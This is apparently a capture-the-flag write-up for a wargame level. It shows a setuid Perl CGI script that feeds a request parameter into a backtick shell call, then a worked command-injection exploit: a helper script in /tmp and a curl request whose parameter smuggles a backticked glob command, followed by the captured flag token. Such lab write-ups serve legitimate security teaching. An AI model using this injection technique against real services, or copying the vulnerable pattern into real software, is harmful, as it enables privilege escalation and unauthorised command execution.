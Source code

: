 # level12

```bash
ls -l
# -rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
```

```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

Basically, the first argument is capitalized and everything after a space is wiped, \
But it still give an access to a shell \
We can copy this script in `/tmp/A`:

```bash
#!/usr/bin/env bash

echo `whoami` `getflag` > /tmp/flag12
```

Then run:
```bash
curl localhost:4646?x='`/*/A`'
cat /tmp/flag12
# flag12 Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
